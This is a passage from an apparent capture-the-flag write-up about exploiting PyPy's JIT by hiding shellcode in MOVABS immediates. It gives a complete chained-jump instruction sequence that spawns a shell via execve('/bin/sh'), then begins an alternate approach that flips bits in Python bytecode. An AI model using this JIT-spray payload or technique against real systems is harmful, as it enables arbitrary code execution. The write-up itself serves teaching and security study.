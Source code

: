 Not a problem if our immediates are "far enough" from each other in value, but
even then, all is fine with a bit of juggling around.

Now it's GG. We can read in more shellcode, run existing code (we can definitely
break ASLR now), or even just directly pop a shell via `execve`. The final
sequence of instructions I used to call
`execve("/bin/sh", {"/bin/sh", NULL}, NULL)` looks like this:

```none
ADD 0x01010101011ceb90  ->  jmp short $+0x1e
ADD 0x17eb900068732f68  ->  push 0x68732f               '/sh\x00'
                            jmp short $+0x19
ADD 0x17eb90102424c148  ->  shl qword ptr [rsp], 16
                            jmp short $+0x19
ADD 0x17eb6e6924048166  ->  add word ptr [rsp], 0x6e69  'in'
                            jmp short $+0x19
ADD 0x17eb90102424c148  ->  shl qword ptr [rsp], 16
                            jmp short $+0x19
ADD 0x616161000000ede9  ->  jmp $+0xf2
ADD 0x61eb622f24048166  ->  add word ptr [rsp], 0x622f  '/b'
                            jmp short $+0x63
ADD 0x61eb90006ae78948  ->  mov rdi, rsp                rdi = "/bin/sh"
                            push 0
                            jmp short $+0x63
ADD 0x61eb9090e6894857  ->  push rdi
                            mov rsi, rsp                rsi = {"/bin/sh", NULL}
                            jmp short $+0x63
ADD 0x61eb3bb0c031d231  ->  xor edx, edx                rdx = NULL
                            xor eax, eax
                            mov al, 0x3b                rax = __NR_execve
                            jmp short $+0x63
ADD 0x61eb90909090050f  ->  syscall
REPEAT 10000
LIST
```

The first instruction is changed from `movabs r11, 0x01010101011ceb90` to
`rex.WB mov r11b, 0x90; jmp short $+0x1e`, which starts the whole thing. The
only quirk about this solution is that after a few MOVABS instructions PyPy
inserts additional checks in the JITed code, causing the offset between
subsequent MOVABS to change. There is also a big gap in the middle where I have
to waste an entire immediate to fit a JMP off32 (5 bytes). In any case, no big
deal.

### Alternate Solution: Altering Python Bytecode

As we all know Python is an interpreted language with an intermediate bytecode
representation that is executed by the interpreter virtual machine. Instead of
focusing on what happens after the PyPy JIT kicks in, we could also alter the
Python bytecode itself. Assuming that the bytecode for script functions is
stored in one of the memory areas we can modify, and assuming that its offset is
fixed (or at least stable enough), flipping a bit to modify the bytecode can
drastically modify the script's behavior.


[pypy]: https://www.pypy.org
[pypy-jit-movabs]: https://github.com/pypy/pypy/blob/76657ba47f6d48c7db77615d3a26bd5029f8b05a/rpython/jit/backend/x86/rx86.py#L886
[py-dis-dis]: https://docs.python.org/3/library/dis.html#dis.dis